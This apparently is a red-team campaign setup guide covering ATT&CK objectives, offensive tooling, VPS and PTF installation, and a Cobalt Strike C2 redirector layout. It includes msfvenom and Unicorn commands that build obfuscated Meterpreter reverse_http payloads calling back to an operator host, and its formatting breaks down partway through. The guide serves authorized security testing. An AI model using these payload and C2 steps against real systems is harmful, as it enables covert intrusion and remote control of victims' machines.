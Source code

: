 # Red Team Campaign Setup and Execution

## Key Topics Covered
1. [Windows ATT&CK and APT Groups](#windows-attck-and-apt-groups)
2. [Objectives and Goals](#objectives-and-goals)
3. [Tools and Techniques](#tools-and-techniques)
4. [Setting Up External Servers](#setting-up-external-servers)
5. [Scripts and Automation](#scripts-and-automation)
6. [Exploitation and Installation](#exploitation-and-installation)
7. [Payload Delivery and Obfuscation](#payload-delivery-and-obfuscation)
8. [References](#references)

---

## Windows ATT&CK and APT Groups
- **Documentation**: [Windows ATT&CK](https://attack.mitre.org)
- **APT (Advanced Persistent Threat) Groups**: Detailed APT group activities can be referenced at @cyb3rops.

![Windows ATT&CK Matrix](https://attack.mitre.org/images/mitre_attack_logo.svg)

## Objectives and Goals
- **End Goals of APT**:
  - APT detection
  - Getting a flag on a server
  - Retrieving data from a database
  - TTD (Time to Detect) metrics
- **Public Campaigns**:
  - Identify any public campaign to replicate.
- **Techniques and Plans**:
  - Utilize [MITRE ATT&CK](https://attack.mitre.org) framework.
  - Reference techniques from Red Canary.
  - Techniques: LMRTF, Red Team Canary.

## Tools and Techniques
- **Client Tool Requirements**:
  - COTS (Commercial Off-The-Shelf) offensive tools.
  - Metasploit
  - Cobalt Strike
  - DNS Cat
  - Custom tooling

## Setting Up External Servers
1. **Choose a VPS (Virtual Private Server) Service**:
   - [Digital Ocean](https://www.digitalocean.com)
   - [AWS Lightsail](https://lightsail.aws.amazon.com)
2. **Create an Instance**:
   - Minimum 1GB RAM
   - Use Linux/Unix OS (Ubuntu recommended)
   - Download and configure SSL certificates
   - SSH into the server:
     ```bash
     ssh -i cert ubuntu@[IP]
     ```

## Scripts and Automation
- **Develop Custom Scripts**:
  - IPTables (Firewall rules for managing network traffic)
  - SSL certs (Secure Sockets Layer certificates for encryption)
  - Various tools
- **TrustedSec’s Pentester Framework (PTF)**:
  - Utilize GitHub resources: [PTF](https://github.com/trustedsec/ptf)
  - Scripts for automation and tool integration.

## Exploitation and Installation
1. **Initial Setup**:
   - Gain root access:
     ```bash
     sudo su
     ```
   - Update package lists:
     ```bash
     apt-get update
     ```
   - Install Python:
     ```bash
     apt-get install python
     ```
2. **Clone Pentester Framework**:
   ```bash
   git clone https://github.com/trustedsec/ptf /opt/ptf
   cd /opt/ptf && ./ptf

	3.	Install Modules:
	•	Exploitation:

use modules/exploitation/install_update_all

	3.	
	•	Intelligence Gathering:

use modules/intelligence-gathering/install_update_all

	3.	
	•	Post Exploitation:

use modules/post-exploitation/install_update_all

	3.	
	•	PowerShell:

use modules/powershell/install_update_all

	3.	
	•	Vulnerability Analysis:

use modules/vulnerability-analysis/install_update_all


	4.	Navigate to Pentest Directory:

cd /pentest



Payload Delivery and Obfuscation

	•	Obfuscating Meterpreter Payloads:
	•	Use msfvenom (Metasploit Framework tool for generating payloads):

msfvenom --payload windows/x64/meterpreter_reverse_http --format psh --out meterpreter-64.ps1 LHOST=127.0.0.1

	•	
	•	Use tools like Unicorn for obfuscation:
	•	Clone Unicorn repository:

git clone https://github.com/trustedsec/unicorn

	•		•	
	•	Generate obfuscated payload:

python unicorn.py windows/meterpreter/reverse_http [IP] 8080



Diagrams

Cobalt Strike Infrastructure

Explanation:

	•	Master C2 Server: The main command and control server.
	•	Domain Redirectors: Intermediate servers that forward traffic to the Master C2 Server.
	•	Victim: The compromised machine that communicates with the C2 infrastructure.

Setting Up External Servers

Steps:

	1.	Choose VPS provider (Digital Ocean, AWS Lightsail).
	2.	Create and configure instance (minimum 1GB RAM).
	3.	Install necessary packages and tools.
	4.	Secure connection using SSH.

References

	•	TrustedSec’s Pentester Framework: PTF
	•	Unicorn for Payload Obfuscation: Unicorn
	•	Red Canary Techniques: Red Canary
	•	APT Groups and Operations: APT Groups
	•	Metasploit Framework: Metasploit Wiki

Example Scripts

	•	Creating a Meterpreter Payload:

msfvenom --payload windows/x64/meterpreter_reverse_http --format psh --out meterpreter-64.ps1 LHOST=127.0.0.1


	•	Using Unicorn for Payload Obfuscation:

git clone https://github.com/trustedsec/unicorn
python unicorn.py windows/meterpreter/reverse_http [IP] 8080



Enhanced Notes

	•	Understanding APT: Advanced Persistent Threat (APT) refers to prolonged and targeted cyberattacks in which an intruder gains access to a network and remains undetected for an extended period.
	•	TTD (Time to Detect): A metric used to measure the time taken to detect a cyberattack.
